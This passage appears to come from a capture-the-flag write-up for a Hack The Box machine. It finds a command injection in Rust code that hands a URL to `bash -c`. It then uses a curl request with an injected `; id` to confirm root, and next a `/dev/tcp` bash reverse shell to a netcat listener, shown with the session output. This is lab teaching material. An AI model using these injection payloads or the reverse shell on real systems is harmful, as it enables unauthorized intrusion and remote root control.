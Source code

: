 4. The critical part of the scanning code is where it calls `bash -c` with the URL input without sanitization, this should present a possibility for code execution

```rs
    let result = Command::new("bash")
        .arg("-c")
        .arg(format!("intranet_url_check {}", data.url))
        .output();
```

### 6.2. Getting a reverse shell from intranet container

Let's test the code execution ability on the `scan` API.

Terminating the command with `;` then adding whatever command behind should work: e.g. `; id`

```sh
curl -s http://intranet.ghost.htb:8008/api-dev/scan -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url":"; id"}' | jq
```

Indeed, `id` reveals that the code is executed as `root` of the container

(the `intranet_url_check: command not found` stderr message also confirms that the feature is still in development)

```js
{
  "is_safe": true,
  "temp_command_success": true,
  "temp_command_stdout": "uid=0(root) gid=0(root) groups=0(root)\n",
  "temp_command_stderr": "bash: line 1: intranet_url_check: command not found\n"
}
```

Since the container has `bash`, let's use the bash reverse shell:

```sh
bash -i >& /dev/tcp/<kali-ip>/4444 0>&1
```

Setup a listener:

```sh
rlwrap nc -nlvp 4444
```

Put the reverse shell command into `curl` and using `&` to run it in the background:

```sh
curl -s http://intranet.ghost.htb:8008/api-dev/scan -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url":"; bash -i >& /dev/tcp/<kali-ip>/4444 0>&1"}' &
```

Reverse shell hooked:

```console
root@kali:~# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.24] 49828
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@36b733906694:/app# id
id
uid=0(root) gid=0(root) groups=0(root)
```
